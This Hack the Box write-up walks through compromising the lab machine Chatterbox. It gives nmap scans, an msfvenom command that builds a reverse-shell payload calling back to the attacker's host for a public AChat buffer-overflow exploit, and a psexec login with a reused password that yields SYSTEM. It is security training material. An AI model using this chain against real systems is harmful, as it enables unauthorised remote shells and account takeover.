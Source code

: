 ```yaml
---
title: Hack the Box - Chatterbox
date: 2022-10-06 12:00:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Chatterbox](/assets/HackTheBox/Chatterbox/Chatterbox.png)

# Bounty Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.74|Chatterbox|Windows|

## Path to Exploitation

To complete Chatterbox we'll start by leveraging a buffer overflow vulnerability in an outdated chat server with a publicly available exploit. Once we modify the payload in the script we'll get a reverse shell back on our machine. To escalate our privileges, we'll reuse a weak password that we were able to identify and gain access to the administrator account. 

# Chatterbox Enumeration

## Full Port Scan

```shell
$ nmap 10.10.10.74 -p- -oA Chatterbox/nmap/full-port --open -Pn -vv
```

Which Resulted In:

|PORT|SERVICE|
|----|-------|
|9255|mon|
|9256|unknown|
|49152|unknown|
|49153|unknown|
|49154|unknown|
|49155|unknown|
|49156|unknown|
|49157|unknown|

## Service Scan

```shell
$ nmap 10.10.10.74 -p 9255,9256,49152,49153,49154,49155,49156,49157 -sC -sV -oA Chatterbox/nmap/service-scan -Pn
```

Which Resulting In:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|9255|http|chat system httpd|
|9256|achat|chat system|
|49152|msrpc|Windows RPC|
|49153|msrpc|Windows RPC|
|49154|msrpc|Windows RPC|
|49155|msrpc|Windows RPC|
|49156|msrpc|Windows RPC|
|49157|msrpc|Windows RPC|

# Exploiting the AChat Server

I did a simple google search of this AChat service and found a potential exploit that I could use. The [exploit](https://www.exploit-db.com/exploits/36025)is a remote buffer overflow.

Inside the script we see the command needed to generate the payload

```shell
$ msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

We'll need to modify this command to create a reverse shell payload instead of executing calc.exe

```shell
$ msfvenom -p windows/shell_reverse_tcp -a x86 --platform Windows LHOST=10.10.14.8 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

After creating this payload and modifying the script with it, we can setup a nc listener and launch the exploit

```shell
$ python exploit.py
```

Checking back on the listener we see we have a shell as alfred

![Initial Foothold](/assets/HackTheBox/Chatterbox/initial-foothold.png)

# Privilege Escalation

Running winpeas we identify a set of Autologon credentials

![Autologon Credentials](/assets/HacktheBox/Chatterbox/autologon-creds.png)

We can try re-using this password with the administrator account using PsExec

```shell
$ python /home/pharo/.local/bin/psexec.py Administrator:"Welcome1\!"@10.10.10.74
```
![Privelege Escalations](/assets/HacktheBox/Chatterbox/priv-esc.png)

We can see that we now have a session running as SYSTEM.